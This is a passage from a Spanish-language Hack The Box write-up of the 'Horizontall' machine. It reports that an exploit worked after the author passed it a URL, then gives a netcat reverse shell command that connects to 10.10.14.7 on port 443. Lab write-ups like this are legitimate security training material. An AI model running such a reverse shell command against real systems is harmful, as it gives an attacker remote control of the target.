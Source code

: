 Como vemos solo nos pide la url.

Le pasamos la URL.

![Hackforce-2022-12-12-01-03-33.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-01-03-33.png)

Y como podemos ver nos funciono el exploit.

Ahora probaremos entablarnos una reverse shell.

```bash
nc -e /bin/bash 10.10.14.7 443
```

![Hackforce-2022-12-12-01-10-06.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-01-10-06.png)
